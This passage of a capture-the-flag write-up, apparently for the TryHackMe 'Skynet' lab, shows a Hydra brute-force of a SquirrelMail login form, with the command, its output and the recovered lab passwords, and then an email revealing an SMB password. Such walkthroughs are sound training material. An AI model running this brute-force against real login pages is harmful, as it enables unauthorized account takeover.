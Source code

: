 We will use the http-post-form payload since this is a webpage to bruteforce the login
```
hydra -l username -P password_list.txt ip_address http-post-form '/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.'
```

![[Pasted image 20251021195208.png]]

The above image is how we construct the http-post-form payload for http bruteforce 
## Bruteforcing 

```bash
┌──(root㉿kali)-[/home/z3tssu/THM/Skynet]
└─# hydra -l milesdyson -P log1.txt 10.10.190.192 http-post-form '/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.' 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-21 19:56:34
[DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://10.10.190.192:80/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.
[80][http-post-form] host: 10.10.190.192   login: milesdyson   password: cyborg007haloterminator
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-21 19:56:47

```

![[Pasted image 20251021195708.png]]

We now have the password for milesdyson:cyborg007haloterminator

# Log into Squirrelmail Directory

Now that we have a valid credentials, let us log into the webpage
![[Pasted image 20251021195841.png]]

## Enumeration of Squirrelmail
First i was checking out the emails on the mailserver, i have identified an email from skynet@skynet, which has stated that the smb password has been changed 
![[Pasted image 20251021200016.png]]

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

this might open some new doors for SMB Enumeration 
